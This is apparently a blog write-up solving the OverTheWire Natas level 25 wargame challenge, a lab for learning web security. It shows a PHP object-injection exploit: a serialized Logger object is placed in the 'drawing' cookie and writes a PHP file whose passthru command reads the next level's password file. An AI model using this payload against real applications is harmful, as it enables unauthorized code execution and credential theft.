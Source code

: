 ```yaml
---
layout: post
title:  "Natas Level 25 → Level 26"
date:   2021-05-31 07:50:38
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: What rolls down stairs, alone or in pairs, and over your neighbor's dog?
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level contains a line drawing app and a link to the source code.  Let's take a look at sections of the source code.

The lines below show that there's a cookie named drawing that contains serialized data, and is base64 encoded. A quick look at the developer tools confirms this. 

```php
function storeData(){
    ...
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    setcookie("drawing",base64_encode(serialize($drawing)));
}
```

The serialize function lets the site save data, and unserialize lets the site restore it at some other point. Since this information was saved in a cookie, we could classes or functions on the site, and once deserialized, they would replace the original code. Let's look around.

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
        // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        } 
    ...
```

The Logger class is the perfect candidate. We can see in the constructor that the Logger writes text to a file and stores it at a given location. Instead of these messages, we could output the contexts of the /etc/natas_webpass/natas27 and save it as a php file instead of a log file. We now need a location to write to. Unfortunately, the directory that contains this script is not writable by the server.

Looking down near the very bottom of the code we see the following:
```php
if (array_key_exists("drawing", $_COOKIE) ||
    (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
    $imgfile="img/natas26_" . session_id() .".png"; 
    drawImage($imgfile); 
    showImage($imgfile);
    storeData();
```

Here we see another directory name **img** and a call to the functions named drawImage and showImage. As the name would imply, drawImage is what creates the image. The showImage function is quite small. Let's take a look.

```php
function showImage($filename){
    if(file_exists($filename))
        echo "<img src=\"$filename\">";
    }
```

This tells us that the file is stored on the server, at least for some time. With this, we can attack the site. Instead of Python, we're going to use php. We'll need some php functions to pull this off, plus we can reuse some of the site code to help speed things along. If you don't have or want to install php locally, you can use an online editor such as [JDoodle](https://www.jdoodle.com/php-online-editor/).

The following code is a modified version of the Logger class from this level. The Logger class provided by the site was written for php 7.0.x. Version 7.1 introduced some breaking changes that kept the original code from working with JDoodle and would require tracking down specific versions of php to run as-is. I figured it was easier to make changes to the code.

Modified Logger:
```php
<?php
    error_reporting(E_ERROR | E_PARSE); # prevents unimportant (for our needs) warnings for being output

    class Logger{
        private $initMsg;
        private $exitMsg;
        private $logFile;

        function __construct($initMsg, $exitMsg, $logFile){ 
            // initialise variables
            $this->initMsg = $initMsg;
            $this->exitMsg = $exitMsg;
            $this->logFile = $logFile;

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
    
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
    
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }

    $initMsg = "<?php passthru('cat /etc/natas_webpass/natas27'); ?>";
    $exitMsg = "<?php passthru('cat /etc/natas_webpass/natas27'); ?>";
    $logFile = "img/natas27.php";

    $log = new Logger($initMsg, $exitMsg, $logFile); # Here's where 7.1 got explodey. members needed to be initialized.
    $serial = serialize($log);
    $result = urlencode(base64_encode($serial));

    print($serial); # What the data looks like serialized
    print(PHP_EOL); # This makes things a little easier to look at in the console
    print(PHP_EOL);
    print($result); # The payload
?>
```

Run the Modified Logger code, and you'll see two long lines of output. The first is the Logger class serialized. The second is the serialized Logger class encoded to base64. Copy that line and open your developer tools. Delete the contents of the drawing cookie and paste the newly generated value in its place.

Once that's done, reload the page. You should see an error message on the page that looks something like the following:
```
Fatal error: Cannot use object of type Logger as array in /var/www/natas/natas26/index.php on line 105
```

This means our attack succeeded. Now navigate to the location specified in $logFile. If you haven't changed the location, that would be [http://natas26.natas.labs.overthewire.org/img/natas27.php](http://natas26.natas.labs.overthewire.org/img/natas27.php).

